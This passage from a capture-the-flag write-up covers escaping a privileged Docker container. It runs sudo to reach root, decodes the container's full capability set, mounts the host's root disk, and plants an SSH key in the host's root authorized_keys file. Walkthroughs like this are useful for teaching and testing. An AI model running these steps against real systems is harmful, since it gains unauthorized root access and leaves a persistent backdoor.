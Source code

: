Escalating to `root` inside the container:

```console
www-data@bb28d5969dd5:/var/www/html$ sudo su -
root@bb28d5969dd5:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Next, we inspect the effective capabilities of the container:

```console
root@bb28d5969dd5:~# grep CapEff /proc/self/status
CapEff: 000001ffffffffff
```

Decoding this value confirms the container holds many capabilities:

```console
$ capsh --decode=000001ffffffffff
0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
```

With these capabilities, there are many ways to escape the container. However, one of the simplest methods would be to mount the host’s root filesystem since we have direct access to the host’s block devices:

```console
root@bb28d5969dd5:~# mount /dev/nvme0n1p1 /mnt
root@bb28d5969dd5:~# cat /mnt/etc/hostname
ubuntu-jammy
```

To convert this filesystem access into a shell, we can add an SSH public key to the host’s `/root/.ssh/authorized_keys`.
First, generating a key pair:

```console
$ ssh-keygen -f id_ed25519 -t ed25519
...
$ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB0nYk5JDOsXnmkB8tQOOspf8I5Ubr2sBLtnXUFq4RMP kali@kali
```

Writing the public key to `/mnt/root/.ssh/authorized_keys` (`/root/.ssh/authorized_keys` on the host):

```console
root@bb28d5969dd5:~# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB0nYk5JDOsXnmkB8tQOOspf8I5Ubr2sBLtnXUFq4RMP kali@kali' >> /mnt/root/.ssh/authorized_keys
```
{: .wrap }

Now, we can use the private key with SSH to get a shell as the `root` user on the host and read the user flag at `/root/user.txt`.
